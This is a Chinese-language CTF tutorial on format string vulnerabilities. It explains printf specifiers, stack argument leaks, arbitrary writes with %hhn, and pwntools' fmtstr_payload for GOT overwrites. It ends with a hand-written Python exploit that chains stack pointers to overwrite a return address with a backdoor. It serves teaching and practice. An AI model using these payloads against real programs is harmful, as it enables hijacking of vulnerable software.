









原理介绍
格式化字符串函数
格式化字符串函数可以接受可变数量的参数，并将第一个参数作为格式化字符串，根据其来解析之后的参数。通俗来说，格式化字符串函数就是将计算机内存中表示的数据转化为我们人类可读的字符串格式。几乎所有的 C/C++ 程序都会利用格式化字符串函数来输出信息，调试程序，或者处理字符串。

常见的格式化字符串函数有
- 输入:
scanf - 输出 
格式化字符串
一个基本的格式化字符串形式如下
%[parameter][flags][field width][.precision][length]type
parameter: 例如 n$获取格式化字符串中的指定参数。例如如果我们后续需要泄露的地址 是格式化字符串的参数5，那么我们就可以用%5$p写到缓冲区中，然后下一次程序调用格式化字符串函数时就会将这个参数位置的内容当做一个指针，并将他解引用，输出指针指向的值，从而泄露出对应地址的值。
field width:输出的最小宽度
precision:输出的最大宽度
length:输出的长度，其中 h输出一个双字节，hh输出一个单字节，这个在任意地址写中非常推荐。
type: d/i表示有符号整数，
u表示无符号整数，
x/X16 进制 unsigned int 。x 使用小写字母；X 使用大写字母。如果指定了精度，则输出的数字不足时在左侧补 0。默认精度为 1。精度为 0 且值为 0，则输出为空。
o表示8进制unsigned int,如果指定了精度，则输出的数字不足时在左侧补 0。默认精度为 1。精度为 0 且值为 0，则输出为空。
c如果没有用 l 标志，把 int 参数转为 unsigned char 型输出；如果用了 l 标志，把 wint_t 参数转为包含两个元素的 wchart_t 数组，其中第一个元素包含要输出的字符，第二个元素为 null 宽字符。
pvoid * 型，输出对应变量的值。printf("%p",a) 用地址的格式打印变量 a 的值，printf("%p", &a) 打印变量 a 所在的地址。
n,不输出字符，但是把已经成功输出的字符个数写入对应的整型指针参数所指的变量。
格式化字符串漏洞成因

如果这个格式化字符串是放在栈上的，那么在进入格式化字符串前，栈上的布局是这样的
some value
3.14
123456
addr of "red"
addr of format string: Color %s...
如果我们在格式化字符串中的参数和后面传入的参数数量不匹配，那么格式化字符串函数就会在栈上取一些本来不应该被我们知道的值当做参数传递给格式化字符串，并根据需要来解释成对应的值。
利用
基础样例
我们用一个相对通用的fmt题目作为本次的例子

简单的读入用户的输入放到buf中，然后就利用printf将buf中的内容输出了。
任意地址读取
格式化字符串可以泄露需要的地址。

如图，我们发现返回地址所在的栈地址是0x7fff2f3ad088,于是我们可以在gdb中输入fmtarg 0x7fff2f3ad088，然后会得到The index of format argument : 7 ("\%6$p")，得知参数是7，于是我们构造%7$p，发送，然后收到的地址就是0x7f2eb9829d90，也就是__libc_start_call_main+128，我们就可以算出libc_base，我们同样可以用相同的办法想泄露什么就泄露什么。
覆盖内存数据
在printf中，如果我们输入一个%{tag}c%{chain_a_offset}$hhn这样的payload,其中n代表将前面输出的字符的长度都写入到对应的内存中。
例如下面代码
int namelength;
printf("%s%n",name &namelength);
printf("The name was %d bytes long", namelength);
这样我们可以在用户输入名字的时候，自动就统计出名字的长度，因此 %n这种参数是有实际意义的。
笔者推荐使用hnn单字节覆写，因为如果使用hn在打远程的时候，要传太多数据，容易爆炸。
题外话-pwntools_fmtstr_payload
pwntools提供了一个打fmt的自动化工具Fmtstr类，其中fmtstr_payload函数可以自动化生成payload
def fmtstr_payload(offset, writes, numbwritten=0, write_size='byte', write_size_max='long', overflows=16, strategy="small", badbytes=frozenset(), offset_bytes=0):
sz = WRITE_SIZE[write_size]
szmax = WRITE_SIZE[write_size_max]
all_atoms = make_atoms(writes, sz, szmax, numbwritten, overflows, strategy, badbytes)
fmt = b""
for _ in range(1000000):
data_offset = (offset_bytes + len(fmt)) // context.bytes
fmt, data = make_payload_dollar(offset + data_offset, all_atoms, numbwritten=numbwritten)
fmt = fmt + cyclic((-len(fmt)-offset_bytes) % context.bytes)
if len(fmt) + offset_bytes == data_offset * context.bytes:
break
else:
raise RuntimeError("this is a bug ... format string building did not converge")
return fmt + data
其中classpwnlib.fmtstr.FmtStr(execute_fmt, offset=None, padlen=0, numbwritten=0)函数，
execute_fmt：与漏洞进程交互的函数offset：控制的第一个格式化程序的偏移padlen：在payload前添加的填充大小numbwritten：已经写入的字节数
例如如果格式化字符串存在栈上我们可以用
def get_vuln_offset(payload):
p.sendline(payload)
info = p.recv()
return info
vuln_offset = FmtStr(get_vuln_offset).offset
log,info("vuln_offset => %s" % hex(vuln_offset))
来自动获得格式化字符串的偏移，您可以在自己实验的时候发现pwntools会发送大量的payload来实现自动化获取偏移。
fmtstr_payload用来自动化生成格式化字符串payload
其格式如下
pwnlib.fmtstr.fmtstr_payload(offset, writes, numbwritten=0, write_size='byte') → str
offset：控制的第一个格式化程序的偏移writes：为字典，用于往addr中写入value，例如**{addr:** value, addr2: value2}numbwritten：已经由printf写入的字节数write_size：必须是byte/short/int其中之一，指定按什么数据宽度写（%hhn/%hn/%n）
例如我们常遇到的题是将printf@got写成system，然后往buf里面传一个/bin/sh，然后下一次执行printf的时候，实际上执行的是system
我们可以
payload = fmtstr_payload(<your offset>,{printf_got : system})
其中我们需要得到printf@got的地址，还有system的地址，因此我们需要先知道libc_base，如果开了PIE，我们可以随便泄露一个栈上存在的有关于elf的地址，然后根据ida64中的地址来算出elf_base，这是绕过PIE的常用手段，因为页表是4K对齐的，因此低3位是固定的。
非栈上格式化字符串
本题中的格式化字符串存在.bss段上，fmtstr_payload失效，我们需要手搓payload来地址。
本题中保护全开，因此我们需要先泄露elf_base，泄露libc_base,然后算出backdoor的地址，然后利用格式化字符串漏洞覆盖返回地址，跳转到后门。
将断点断在printf@got前，查看栈上的内容

我们发现0x7fff2f3ad0c8地址中存的是main的地址，然后用ida查看，偏移是0x127F，因此我们可以泄露出main的地址，然后减去0x127F即可，libc_base同理，直接泄露返回地址即可。
然后是覆盖内存，需要我们在栈上找一个栈地址链。

例如0x7fff2f3ad0a8 —▸ 0x7fff2f3ad198 —▸ 0x7fff2f3af22a ◂— 0x4853006e77702f2e / 就是环境变量链。
我们将他们分别对应为 a->b->c，我们可以先拿到0x7fff2f3ad0a8的偏移，再拿到0x7fff2f3ad198的偏移，分别是11和41，当我们用形如%{tag}c%{chain_a_offset}$hhn的payload的时候，假如我们输入的偏移是0x7fff2f3ad0a8的偏移，调用printf的时候，程序就会解析0x7fff2f3ad0a8存储的内容，是0x7fff2f3ad198，然后由于0x7fff2f3ad198是一个指针，printf会在printf_positional中解引用这个地址，然后修改0x7fff2f3ad198指向的内容，也就是0x7fff2f3af22a，这样我们就实现了在a->b->c链条中传入a的偏移，可以修改c的最低位($hhn)。
为了实现将一整个地址写入(64位也就是64个bytes)。我们可以在刚才的a->b->c链条中，利用a来修改c的最低位，然后拿到b的偏移，然后可以修改到c所指的内容，也就是在a->b->c->d中，我们先用a每次更改c的最低字节，每次+1，然后再用b来修改d，这样就可以写完整个地址。
为此，我们需要写一个模板函数
def fmt_write(chain_a_offset,chain_b_offset,write_addr):
count = 0
write_addr_list = split_address_to_bytes(write_addr)
# p.sendafter("Do you know repeater\n",f"%{chain_c_offset}$p")
p.sendafter("Do you know repeater\n",f"%{chain_b_offset}$p")
p.recvuntil(b'0x')
chain_c_addr= int(p.recv(12),16)
success(f"chain_c_addr-->{hex(chain_c_addr)}")
# chain_c_addr= int(p.recvline(),16)
p.sendafter("Do you know repeater\n",f"%{chain_a_offset}$p")
p.recvuntil(b'0x')
chain_b_addr= int(p.recv(12),16)
origin_low_bytes =chain_c_addr & 0xFF
# 将最低字节和8对齐
if origin_low_bytes % 0x08 != 0:
origin_low_bytes &= 0xF8
chain_c_offset = (chain_c_addr - chain_b_addr) // 8 + chain_b_offset # use the bias to caculate the chain_c_offset in order to bypass the PIE
success(f"origin:{hex(origin_low_bytes)}")
success(f"chain_c_offset->>{hex(chain_c_offset)}")
for addr_byte in write_addr_list:
tag = origin_low_bytes + count # we use a->b->c->d a->c->d c每次地址+1 然后在用B可以改到D
p.sendafter("Do you know repeater\n",f"%{tag}c%{chain_a_offset}$hhn") # 修改C的低位
p.sendafter("Do you know repeater\n",f"%{addr_byte}c%{chain_b_offset}$hhn") # 利用B往D里写一个byte
count += 1
# write 2bytes 0
for i in range(12):
tag = origin_low_bytes + count
p.sendafter("Do you know repeater\n",f"%{tag}c%{chain_a_offset}$hhn") # 修改C的低位
p.sendafter("Do you know repeater\n",f"%{chain_b_offset}$hhn") # 利用B往D里写一个byte
count+=1
# p.sendafter()
# recover the c low bytesbyte
p.sendafter("Do you know repeater\n",f"%{origin_low_bytes}c%{chain_a_offset}$hhn")
return chain_c_offset

执行之后

我们成功将c后面写上了返回地址的栈地址，这个栈地址指向我们的返回地址。
注：在64位系统中，fmt是按照8来寻址的，也就是栈地址需要对齐8，比如原来我们的链子中c是0x7fff2f3af22a，我们需要手动将他修正为8,要不第二次打fmt的时候就无法写入数据了。
此外，我们注意到，c中的偏移在开了PIE之后是不固定的，因此我们可以通过先泄露b的地址，然后泄露c的地址，在本题中b的偏移是固定的，可以用c的地址减去b的地址然后除以8。
64位系统中，fmt按照8计算偏移，而32位按照4，这是栈地址的位数决定的。
然后我们现在的情况是a->b->c->d,然后d是返回地址的栈地址，指向这我们真正的返回地址e。 也就是0x7ffe43be6d28 —▸ 0x7ffe43be6e18 —▸ 0x7ffe43be8228 —▸ 0x7ffe43be6d08->0x75be6e029d90 (__libc_start_call_main+128)
我们可以如法炮制再打一遍，在a->b->c->d->e中，我们传入b的偏移来修改d的低字节，然后传入c的偏移来修改e，也就是我们的返回地址，每次通过b将d的地址+1，来逐步将e修改为后门地址。
也就是我们第一次调用c = fmt_write(a,b,ret_addr) ,然后第二次调用fmt_write(b,c,backdoor_addr),最后按照题目意思交互拿到shell解决问题即可。